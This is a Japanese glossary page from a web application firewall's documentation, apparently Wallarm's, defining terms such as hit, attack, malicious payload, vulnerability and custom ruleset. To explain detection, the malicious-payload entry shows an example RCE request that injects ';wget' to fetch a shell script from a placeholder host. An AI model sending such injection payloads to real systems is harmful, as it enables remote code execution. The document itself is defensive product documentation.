 					# 用語集

用語集では、Wallarmの主要なエンティティについて説明して、プラットフォームへの理解を深める手助けをしています。

## ヒット

ヒットとは、シリアライズされた悪意のあるリクエスト（元の悪意のあるリクエストとフィルタリングノードによって追加されたメタデータ）を意味します。例：

![!Hit example](images/user-guides/events/analyze-attack-raw.png)

[ヒットパラメータの詳細](user-guides/events/analyze-attack.md#analyze-requests-in-an-attack)

## 攻撃

攻撃とは、以下の特徴によってグループ化された単一のヒットまたは複数のヒットです。

* 同じ攻撃タイプ、悪意のあるペイロードが含まれるパラメータ、およびヒットが送信されたアドレス。ヒットは、同じIPアドレスまたは別のIPアドレスから来ることがあり、また、1つの攻撃タイプ内で悪意のあるペイロードの値が異なる場合があります。

    このヒット分類方法は基本的で、すべてのヒットに適用されます。
* 同じソースIPアドレス（適切な[トリガー](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack)が有効になっている場合）。他のヒットパラメータの値が異なることがあります。

    このヒット分類方法は、Brute force、Forced browsing、BOLA（IDOR）、Resource overlimit、Data bomb、およびVirtual patch攻撃タイプを除くすべてのヒットに適用されます。

    ヒットがこの方法でグループ化されている場合、[**誤検知としてマーク**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive)ボタンと[アクティブ検証](about-wallarm/detecting-vulnerabilities.md#active-threat-verification)オプションは、攻撃に使用できません。

上記のヒット分類方法は相互に排他的ではありません。ヒットが両方の方法の特徴を持っている場合、それらはすべて1つの攻撃にグループ化されます。

単一のヒットを含む攻撃の例：

![!Attack with one hit](images/glossary/attack-with-one-hit-example.png)

多数のヒットを含む攻撃の例：

![!Attack with several hits](images/glossary/attack-with-several-hits-example.png)

## 悪意あるペイロード

元のリクエストの一部で、以下の要素を含むものです。

* 攻撃サインがリクエストで検出されている場合。同じ攻撃タイプを特徴付けるいくつかの攻撃サインがリクエストで検出された場合、最初のサインだけがペイロードに記録されます。
* 攻撃サインのコンテキスト。コンテキストは、検出された攻撃サインの前後にある一連の記号です。ペイロードの長さに制限があるため、攻撃サインが全ペイロードの長さを持っている場合、コンテキストは省略されることがあります。

例：

* リクエスト：

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* 悪意あるペイロード：

    ```bash
    ;wget+http://s
    ```

    このペイロードでは、`;wget+`が[RCE](attacks-vulns-list.md#remote-code-execution-rce)攻撃サインであり、ペイロードの他の部分は攻撃サインのコンテキストです。

攻撃サインは、[行動攻撃](about-wallarm/protecting-against-attacks.md#behavioral-attacks)の検出には使用されないため、行動攻撃の一部として送信されるリクエストはペイロードが空になります。

## 脆弱性
脆弱性とは、ウェブアプリケーションの構築や実装において、不注意や情報不足によるエラーで、情報セキュリティ上のリスクにつながるものです。

情報セキュリティ上のリスクには以下のようなものがあります。

* 不正なデータアクセス；例えば、ユーザーデータの読み取りや変更など。
* サービス拒否。
* データ破損その他。

インターネットのトラフィックは脆弱性を検出するために利用され、Wallarmのその他の機能もこれに対応しています。

## セキュリティインシデント

セキュリティインシデントとは、脆弱性を悪用する発生事象のことです。インシデントは、確認済みの脆弱性を対象とした[攻撃](#attack)です。

インシデントは攻撃と同様に、システム外部のエンティティであり、システム自体の特性ではなく、インターネットの外部の特性です。既存の脆弱性を対象とした攻撃は少数派ですが、情報セキュリティの観点から最も重要です。Wallarmは、既存の脆弱性を対象とした攻撃を自動的に検出し、それらを別のオブジェクトとして表示しています。

## 循環バッファ
循環バッファとは、単一の固定サイズバッファを端から端まで接続されているかのように使用するデータ構造です。
[ウィキペディア](https://en.wikipedia.org/wiki/Circular_buffer)を参照してください。

## カスタムルールセット（以前の用語はLOM）

カスタムルールセットとは、WallarmノードがWallarm Cloudからダウンロードするコンパイル済みセキュリティルールのセットです。

カスタムルールを使用することで、トラフィック処理のための個別のルールを設定できます。例：

* Wallarm Cloudにアップロードする前に機密データをマスクする
* 正規表現ベースの攻撃インジケーターを作成する
* アクティブな脆弱性を悪用するリクエストをブロックする仮想パッチを適用する
* 特定のリクエストでの攻撃検出を無効にするなどです。

カスタムルールセットはデフォルトで空ではなく、Wallarm Cloudに登録されたすべてのクライアントのルールが含まれています。例えば、[**Settings → General**タブ](user-guides/settings/general.md)で設定された値のフィルタリングモードルールが含まれています。

[カスタムルールセットの詳細](user-guides/rules/intro.md)

## 無効なリクエスト
フィルターノードでチェックされ、LOMルールに一致しないリクエスト。

## リバースプロキシ
リバースプロキシとは、クライアントに代わってサーバーからリソースを取得し、リソースをWebサーバー自体から来たかのようにクライアントに返すプロキシサーバーの一種です。
[ウィキペディア](https://en.wikipedia.org/wiki/Reverse_proxy)を参照してください。

## 証明書認証局
証明書認証局とは、デジタル証明書を発行する機関です。
[ウィキペディア](https://en.wikipedia.org/wiki/Certificate_authority)を参照してください。